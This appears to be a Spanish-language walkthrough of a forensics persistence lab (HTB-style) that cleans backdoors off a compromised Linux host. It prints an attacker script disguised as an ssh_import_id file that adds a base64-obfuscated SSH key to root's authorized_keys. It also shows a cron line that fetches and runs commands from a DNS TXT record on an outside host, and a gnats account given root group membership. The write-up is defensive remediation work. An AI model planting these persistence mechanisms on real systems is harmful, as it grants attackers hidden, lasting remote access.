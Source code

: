En `/lib/python3/dist-packages/ssh_import_id_update` tenemos: 

```bash
root@ng-2122606-forensicspersistence-btivr-7c459d4bf4-rxdtr:~# cat /lib/python3/dist-packages/ssh_import_id_update
#!/bin/bash

KEY=$(echo "c3NoLWVkMjU1MTkgQUFBQUMzTnphQzFsWkRJMU5URTVBQUFBSUhSZHg1UnE1K09icTY2Y3l3ejVLVzlvZlZtME5DWjM5RVBEQTJDSkRxeDEgbm9ib2R5QG5vdGhpbmcK" | base64 -d)
PATH=$(echo "L3Jvb3QvLnNzaC9hdXRob3JpemVkX2tleXMK" | base64 -d)

/bin/grep -q "$KEY" "$PATH" || echo "$KEY" >> "$PATH"
root@ng-2122606-forensicspersistence-btivr-7c459d4bf4-rxdtr:~# echo "c3NoLWVkMjU1MTkgQUFBQUMzTnphQzFsWkRJMU5URTVBQUFBSUhSZHg1UnE1K09icTY2Y3l3ejVLVzlvZlZtME5DWjM5RVBEQTJDSkRxeDEgbm9ib2R5QG5vdGhpbmcK" | base64 -d
ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIHRdx5Rq5+Obq66cywz5KW9ofVm0NCZ39EPDA2CJDqx1 nobody@nothing
root@ng-2122606-forensicspersistence-btivr-7c459d4bf4-rxdtr:~# echo "L3Jvb3QvLnNzaC9hdXRob3JpemVkX2tleXMK" | base64 -d
/root/.ssh/authorized_keys
```

Así que eliminamos este fichero `/lib/python3/dist-packages/ssh_import_id_update`

También necesitamos remover la clave ssh de `/root/.ssh/authorized_keys`

Y eliminaos las líneas del crontab: 

```bash
user@ng-2122606-forensicspersistence-x9jux-85d7798569-nztlw:~$ crontab -l
* * * * * /bin/sh -c "sh -c $(dig imf0rce.htb TXT +short @ns.imf0rce.htb)"
```

Entramos con `crontab -l` y elimminamos las líneas. 

-------

Bien, ahora podemos revisar los usuarios: 

```bash 
root@ng-2122606-forensicspersistence-sceul-676dc87c7d-jj4nv:/home/user# cat /etc/passwd | grep -i "/bash"
root:x:0:0:root:/root:/bin/bash
gnats:x:41:0:Gnats Bug-Reporting System (admin):/var/lib/gnats:/bin/bash
user:x:1000:1000::/home/user:/bin/bash
root@ng-2122606-forensicspersistence-sceul-676dc87c7d-jj4nv:/home/user# groups gnats
gnats : root
```

El usuario gnats en Linux es un usuario especial que se utiliza para el sistema de seguimiento de problemas (bug tracking system) de GNU.
Este usuario gnats se utiliza para recibir y procesar informes de problemas (bugs) enviados a los sistemas de seguimiento de problemas de GNU.

Así que le quitamos permisos de bash y le asignamos el grupo de gnats unicamente: 

```bash 
usermod -s /usr/sbin/nologin gnats
usermod -g gnats gnats
```

